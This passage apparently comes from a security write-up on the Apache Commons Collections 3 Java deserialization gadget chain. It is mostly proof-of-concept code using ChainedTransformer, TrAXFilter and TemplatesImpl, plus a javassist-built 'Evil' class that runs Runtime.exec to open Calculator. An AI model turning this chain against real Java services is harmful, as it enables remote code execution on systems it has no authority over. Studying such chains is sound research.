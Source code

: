```java
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, chainedTransformer);
        outerMap.put("d1no", "web");
    }

    public static void main(String[] args) {
        try {
            trAxFilterDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p3.ssl.qhimg.com/t01295191a7456840b8.png "undefined")

### TransformedMap

```java
package CommonsCollections3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 9:38 下午
 */
public class CommonsCollections3TransformedMap {

    public static void CC3() throws NotFoundException, CannotCompileException, IOException, IllegalAccessException, NoSuchFieldException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellByteCode = ctClass.toBytecode();
```
